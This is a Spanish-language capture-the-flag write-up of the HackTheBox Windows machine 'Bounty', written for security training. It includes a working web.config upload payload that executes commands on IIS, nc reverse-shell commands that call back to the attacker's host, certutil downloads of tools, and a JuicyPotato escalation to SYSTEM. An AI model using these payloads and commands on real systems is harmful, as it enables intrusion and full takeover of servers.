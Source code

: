 ```yaml
---
title: HackTheBox - Bounty
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'File Upload', 'SeImpersonatePrivilege (Juicy Potato)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Bounty/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Bounty Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **File Upload, SeImpersonatePrivilege (Juicy Potato)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Bounty/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Bounty/02-versions.png)

> Internet Information Services (IIS) es un conjunto de servicios para Windows. Las extensiones más 'conocidas' son **.aspx** y **.aspx**
{: .prompt-tip }

c. Enumeramos por fichero con las extensiones más conocidas

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.93/ -t 100 -x aspx,asp --add-slash

/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles/       (Status: 403) [Size: 1233] -> Directorio en el que se guardarán los archivos
```


![](/assets/images/HTB/Easy/Bounty/03-file.png)

* En este caso no podemos subir una **webshell** en formato '.asp' y '.aspx' por lo que buscamos una forma de bypassear esto [Bypass File Upload](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

d. Podemos ejecutar comandos 'camuflando' el script en un archivo **web.config**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
set xmldoc= Server.CreateObject("MSXML2.DOMDocument")
xml="<?xml version=""1.0""?><root >cmd /c ipconfig</root>"
xmldoc.loadxml(xml)
Set xsldoc = Server.CreateObject("MSXML2.DOMDocument")
xlst="<?xml version='1.0'?><xsl:stylesheet version=""1.0"" xmlns:xsl=""http://www.w3.org/1999/XSL/Transform"" xmlns:msxsl=""urn:schemas-microsoft-com:xslt"" xmlns:zcg=""zcgonvh""><msxsl:script language=""JScript"" implements-prefix=""zcg""> function xml(x) {var a=new ActiveXObject('wscript.shell'); var exec=a.Exec(x);return exec.StdOut.ReadAll()+exec.StdErr.ReadAll(); }</msxsl:script><xsl:template match=""/root""> <xsl:value-of select=""zcg:xml(string(.))""/></xsl:template></xsl:stylesheet>"
xsldoc.loadxml(xlst)
response.write "<pre><xmp>" & xmldoc.TransformNode(xsldoc)& "</xmp></pre>"
%>
```

* Subimos este fichero y veremos el output del comando **ipconfig**

    ![](/assets/images/HTB/Easy/Bounty/04-command.png)

e. Ahora nos entablaremos una reverse shell

* Primero, descargamos [nc](https://eternallybored.org/misc/netcat/) y montamos un servidor smb con impacket

    ```bash
    ❯ impacket-smbserver Share ./ -smb2support
    ```

* Ahora, el comando que ejecutaremos es `\\10.10.14.18\Share\nc.exe -e cmd 10.10.14.18 443`, subimos el fichero web.config y recibiremos una **reverse shell**

    ```bash
    ❯ nc -lvnp 443
    connect to [10.10.14.18] from (UNKNOWN) [10.10.10.93] 49169
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv>
    ```

### Escalada de Privilegios 💹

a. Vemos nuestro privilegios

```cmd
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

> El tener este privilegio habilitado para un usuario lo hace vulnerable a una escalada de privilegios con **Juicy Potato**
{: .prompt-info }

b. Para esto necesitamos los ficheros [Juicy Potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y [nc64](https://eternallybored.org/misc/netcat/) y los transferimos a la máquina víctima

```bash
❯ python -m http.server 80
------------------------------------------------------------------------------------
C:\Users\merlin\Documents>certutil -f -urlcache -split "http://<tun0 IP>/JuicyPotato.exe" ".\JuicyPotato.exe"
C:\Users\merlin\Documents>certutil -f -urlcache -split "http://<tun0 IP>/nc64.exe" ".\nc64.exe"
```

c. Ahora, nos entablamos una reverse shell 

```cmd
C:\Users\merlin\Documents>.\JuicyPotato.exe -t * -l 4445 -p "C:\Windows\System32\cmd.exe" -a "/c C:\Users\merlin\Documents\nc64.exe -e cmd <tun0 IP> 4444"
----------------------------------------------------------------------------------------------------------------------------------------------------------
❯ nc -lvnp 4444
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```